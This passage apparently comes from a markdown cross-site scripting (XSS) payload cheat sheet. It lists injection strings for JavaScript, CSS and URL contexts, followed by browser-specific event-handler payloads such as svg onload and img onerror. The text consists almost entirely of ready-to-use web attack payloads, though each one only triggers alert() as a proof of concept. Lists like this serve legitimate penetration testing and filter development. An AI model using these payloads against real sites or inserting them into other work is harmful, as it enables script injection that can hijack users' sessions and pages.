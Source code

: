 ### JavaScript Context
```javascript
// String context
'; alert('XSS'); //
'; alert('XSS'); var dummy='

// Variable assignment
var x = 'USER_INPUT'; // Payload: '; alert('XSS'); //

// Function parameter
function test(param) { // Payload: '); alert('XSS'); //
```

### CSS Context
```css
/* CSS injection */
</style><script>alert('XSS')</script>
body { background: url('javascript:alert(1)'); }
@import 'javascript:alert("XSS")';

/* CSS expression (IE) */
body { background: expression(alert('XSS')); }
div { width: expression(alert('XSS')); }
```

### URL Context
```html
<!-- URL parameter injection -->
<a href="http://target.com?param=javascript:alert('XSS')">
<iframe src="http://target.com?param=<script>alert('XSS')</script>">

<!-- Data URI -->
<iframe src="data:text/html,<script>alert('XSS')</script>">
<object data="data:text/html,<script>alert('XSS')</script>">
```

## 🎯 Payload Variations by Browser

### Chrome/Webkit Payloads
```html
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
<details open ontoggle=alert('XSS')>
<marquee onstart=alert('XSS')>
```

### Firefox Payloads
```html
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
<video><source onerror="alert('XSS')">
<audio src=x onerror=alert('XSS')>
```
